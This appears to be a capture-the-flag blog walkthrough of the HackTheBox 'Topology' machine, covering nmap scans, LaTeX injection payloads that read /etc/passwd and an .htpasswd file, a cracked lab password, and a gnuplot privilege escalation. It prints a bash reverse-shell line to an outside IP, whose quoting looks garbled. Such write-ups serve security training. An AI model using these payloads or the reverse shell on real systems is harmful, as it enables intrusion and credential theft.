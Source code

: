 ```yaml
---
layout: single
title: Topology - HackTheBox (OSCP STYLE)
excerpt: "During the process of resolving Topology, I faced several challenges, such as identifying a latex injection and .htpasswd that is a flat-file used to store usernames and password for basic authentication on an Apache HTTP Server.. To overcome these obstacles, I employed a methodology based on the OSCP."
date: 2024-02-22
classes: wide
header:
  teaser: /assets/images/topology/topology.png
  teaser_home_page: true
categories:
  - HackTheBox
  - infosec
tags:
  - HackTheBox
  - Linux
  - htpasswd
  - Latex Injection
  - Bad Sudo Permissions
---
```


## Enumeration


We'll be facing this exercise with the OSCP methodology

The first step is perform a nmap scan in the target machine, but before that we'll ping the victim machine in order to discover if we have vibility and know the OS that is running

After pinging the machine found that it responds with a ttl of 63, that means that we are handling a linux machine.

We start our nmap scan

```
sudo nmap -sS -p- --min-rate 5000 --open -T5 -Pn -n 10.10.11.217 -oG allPorts
```

Found that the machine has the open ports 80 and 22

![1]

After that we decided to perform a nmap scan in the 2 open ports to find the versions that this services are running 

```
nmap -sVC -p22,80 10.10.11.217 --script=http-enum -oN targeted
```

![2]

Interensing data that we found here is that the web server is running an Apache 2.4.41

Regarding http-enum script found /demo/ directory

The main page overview is showing an university page 

![3]

The things that we found in this main page, are the following:

```
Valid user: lklein
Valid redirect that we should apply directory listing to reach this page
"latex.topology.htb"
```

![4]

## Initial access

On first instance it seems that this machine should be vulnerable to a latex injection, regarding the directory /demo that we found enumerating the site, we were unable to reach this page.

I decided to try some basic latex injections to find out how the webpage responds

```
# Read file
\input{/etc/passwd}
$\input{/etc/passwd}$
$$\input{/etc/passwd}$$

\include{example} # Read example.tex
$\include{example}$
$$\include{example}$$

\lstinputlisting{/etc/passwd}
$\lstinputlisting{/etc/passwd}$
$$\lstinputlisting{/etc/passwd}$$


# Write file
\newwrite\outfile
$\newwrite\outfile$
$$\newwrite\outfile$$

\openout\outfile=cmd.tex
$\openout\outfile=cmd.tex$
$$\openout\outfile=cmd.tex$$

\write\outfile{Hello-World}
$\write\outfile{Hello-World}$
$$\write\outfile{Hello-World}$$

```

But the page responds saying that we are using illegal commands if we try to read content from this page

![5]

We've checked for a suposed WAF making syntax filter but nothing found

![6]

I decided to try all the payloads and found that 

```
$\lstinputlisting{/etc/passwd}$
```

Allow us to read the /etc/passwd content

![7]

```
Valid users that we found:

vdaisley
www-data
root
```

We also tried more injections, but we weren't able to read other files, after enumerate the machine with wfuzz discover dev subdomain

Since we have read permissions we could try to read htpasswd 

.htpasswd is a flat-file used to store usernames and password for basic authentication on an Apache HTTP Server. The name of the file is given in the .htaccess configuration, and can be anything although ".htpasswd" is the canonical name. The file name starts with a dot, because most Unix-like operating systems consider any file that begins with dot to be hidden. This file is often maintained with the shell command "htpasswd" which can add, delete, and update users, and will properly encode the password for use.


```
$\lstinputlisting{/var/www/dev/.htpasswd}$
```

![8]

```
vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
```

We have to decrypt this hash with john the ripper tool and get the user password

![9]

```
Valid user and password:
vdaisley:calculus20
```

And gain access as vdaisley user

![10]


## Privilege escalation


Doing a manual enumeration found that in /opt folder we haver gnuplot 


gnuplot is a command-line program that can generate two- and three-dimensional plots of functions, data, and data fits. The program runs on all major computers and operating systems.It is a program with a fairly long history, dating back to 1986. Despite its name, this software is not part of the GNU project.

Executing the app found that the version that this application is running is the 5.2 version

![11]

We have write and execution permissions in gnuplot folder, the way that we are going to use this is because gnuplot has 2 files (owned by root inside this directory) hello and test

If we redirect a reverse shell inside one of those files we will get root acces to the machine

```
echo "system(\"bash -c 'bash -i >& /dev/tcp/10.10.14.228/4444' 0>&1' \")" > hello.plt
```

![12]



[1]:/assets/images/topology/1.png
[2]:/assets/images/topology/2.png
[3]:/assets/images/topology/3.png
[4]:/assets/images/topology/4.png
[5]:/assets/images/topology/5.png
[6]:/assets/images/topology/6.png
[7]:/assets/images/topology/7.png
[8]:/assets/images/topology/8.png
[9]:/assets/images/topology/9.png
[10]:/assets/images/topology/10.png
[11]:/assets/images/topology/11.png
[12]:/assets/images/topology/12.png
